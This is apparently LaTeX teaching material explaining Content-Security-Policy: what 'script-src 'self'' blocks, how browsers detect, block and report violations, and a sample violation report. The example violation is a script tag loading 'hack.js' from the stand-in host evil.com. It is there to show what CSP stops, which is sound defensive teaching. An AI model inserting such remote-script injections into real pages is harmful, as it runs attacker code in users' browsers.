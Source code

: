\documentclass{article}
\begin{document}
\begin{itemize}
\subsection{With CSP}
\begin{lstlisting}[frame=single]
Content-Security-Policy: script-src 'self'
\end{lstlisting}
\begin{itemize}
    \item  Inline scripts blocked
    \item  Event handlers blocked  
    \item  External scripts from untrusted sources blocked
    \item  Only scripts from same origin allowed
\end{itemize}



\section{CSP Violations - What Happens}

\subsection{Browser Behavior}
\begin{enumerate}
    \item \textbf{Detects violation} - Resource doesn't match policy
    \item \textbf{Blocks resource} - Doesn't load/execute
    \item \textbf{Reports violation} - Sends report to specified endpoint
\end{enumerate}

\subsection{Example Violation}
If policy is \texttt{script-src 'self'} but page tries:
\begin{lstlisting}[language=HTML, backgroundcolor=\color{gray!10}, frame=single]
<script src="https://evil.com/hack.js"></script>
\end{lstlisting}

\textbf{Browser blocks it and reports:}
\begin{lstlisting}[ backgroundcolor=\color{gray!10}, frame=single]
{
  "csp-report": {
    "document-uri": "https://example.com/page",
    "violated-directive": "script-src",
    "blocked-uri": "https://evil.com/hack.js"
  }
}
\end{lstlisting}


\end{itemize}
\end{document}
